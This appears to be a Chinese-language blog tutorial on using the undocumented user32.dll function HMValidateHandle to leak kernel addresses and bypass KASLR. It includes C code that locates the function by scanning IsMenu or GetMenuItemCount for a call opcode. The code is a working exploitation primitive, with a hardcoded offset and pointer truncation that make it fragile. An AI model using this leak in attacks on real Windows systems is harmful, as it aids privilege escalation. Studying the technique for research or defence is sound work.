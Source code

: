```yaml
---
title: HMValidateHandle
tags: windows
---
```


## 0x00 前言

一个典型的漏洞利用过程大概分为以下几步：

触发漏洞 —> 信息泄露 —> 构造读写原语 —> 代码执行

信息泄露的目的是利用一些泄露内核内存地址信息的方法，绕过 KASLR

## 0x01 KASLR

Windows vista 之后，微软对内核默认启用了 ASLR，即 KASLR，KASLR随机化了模块的加载基址，内核对象地址等，作为漏洞缓解的一种手段。对抗 KASLR 最直接的方法就是使用未公开函数或 Windows 内核信息泄露漏洞泄露内核内存地址信息。

## 0x02 HMValidateHandle

HMValidateHandle 是 user32.dll 中一个内部未公开的函数，他需要两个参数：handle、handle_type，通过查找句柄表，如果句柄与类型匹配，对象将会被复制到用户内存中，如果对象包含指向自身的指针，比如tagWND，HMValidateHandle 就能用来泄露内核内存地址。在 Windows 10 RS4 之后，微软关闭了这个函数。

## 0x03 查找HMValidateHandle

用 IDA 分析 user32.dll，查找到函数 isMenu：

![](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095914.png)

可以看到 HMVaildateHandle 在此函数中被调用，因此只要查找此函数，找到 opcode 等于 e80，就可以找到HMValidateHandle 的地址。

整个代码流程为：

![image-20210909183005095](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095917.png)

## 0x04 代码

```C
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef void* (NTAPI *lHMValidateHandle)(HWND h, int type);
#else
typedef void* (_fastcall *lHMValidateHandle)(HWND h, int type);
#endif

lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle()
{
  HMODULE hUser32 = LoadLibraryA("user32.dll");  // 加载 user32.dll
  if (hUser32 == NULL)
  {
    printf("Failed to load user32.dll");
    return FALSE;
  }

  BYTE* pIsMenu = (BYTE*)GetProcAddress(hUser32, "IsMenu");  // 检索 user32.dll 中的输出库函数 IsMenu 地址

  if (pIsMenu == NULL)
  {
    printf("Failed to find location of exported function 'IsMenu' within user32.dll\n");
    return FALSE;
  }

  unsigned int uiHMValidateHandleOffset = 0;

  //寻找第一个 Call 的偏移，即 HMValidateHandle 的偏移
  for (unsigned int i = 0; i < 0x1000; i++)
  {
    BYTE* test = pIsMenu + i;
    if (*test == 0xE8)
    {
      uiHMValidateHandleOffset = i + 1;
      break;
    }
  }
  if (uiHMValidateHandleOffset == 0)
  {
    printf("Failed to find offset of HMValidateHandle from location of 'IsMenu'\n");
    return FALSE;
  }

  unsigned int addr = *(unsigned int*)(pIsMenu + uiHMValidateHandleOffset);  // 获取 HMValidateHandle 对应的操作数

  pHmValidateHandle = (lHMValidateHandle)((unsigned int)pIsMenu + 11 + addr);  //要CALL的地址 = E8 后面的硬编码 + 下一条指令地址，11 是 CALL 的下一条指令相对 IsMenu 的偏移

  return TRUE;

}

int main()
{
  BOOL isFound = FindHMValidateHandle();
  printf("The address of HmValidateHandle is 0x%x", pHmValidateHandle);
}

```


![](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095921.png)

## 0x05 代码2

有上面的操作流程可知，只要调用了 HMValidateHandle 的函数都可以用来寻找 HMValidateHandle 的函数地址。

IDA查看引用：

![](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095924.png)

挑选偏移较小的函数，如 GetMenuItemCount：

![](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095926.png)

首次调用的依然是 HMValideateHandle，因此可以直接修改代码为：

```C
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef void* (NTAPI *lHMValidateHandle)(HWND h, int type);
#else
typedef void* (_fastcall *lHMValidateHandle)(HWND h, int type);
#endif

lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle()
{
  HMODULE hUser32 = LoadLibraryA("user32.dll");  // 加载 user32.dll
  if (hUser32 == NULL)
  {
    printf("Failed to load user32.dll");
    return FALSE;
  }

  BYTE* pGetMenuItemCount = (BYTE*)GetProcAddress(hUser32, "GetMenuItemCount");  // 检索 user32.dll 中的输出库函数 GetMenuItemCount 地址

  if (pGetMenuItemCount == NULL)
  {
    printf("Failed to find location of exported function 'GetMenuItemCount' within user32.dll\n");
    return FALSE;
  }

  unsigned int uiHMValidateHandleOffset = 0;

  //寻找第一个 Call 的偏移，即 HMValidateHandle 的偏移
  for (unsigned int i = 0; i < 0x1000; i++)
  {
    BYTE* test = pGetMenuItemCount + i;
    if (*test == 0xE8)
    {
      uiHMValidateHandleOffset = i + 1;
      break;
    }
  }
  if (uiHMValidateHandleOffset == 0)
  {
    printf("Failed to find offset of HMValidateHandle from location of 'GetMenuItemCount'\n");
    return FALSE;
  }

  unsigned int addr = *(unsigned int*)(pGetMenuItemCount + uiHMValidateHandleOffset);  // 获取 HMValidateHandle 对应的操作数

  pHmValidateHandle = (lHMValidateHandle)((unsigned int)pGetMenuItemCount + 11 + addr);  //要CALL的地址 = E8 后面的硬编码 + 下一条指令地址，11 是 CALL 的下一条指令相对 GetMenuItemCount 的偏移

  return TRUE;

}

int main()
{
  BOOL isFound = FindHMValidateHandle();
  printf("The address of HmValidateHandle is 0x%x",pHmValidateHandle);
}
```

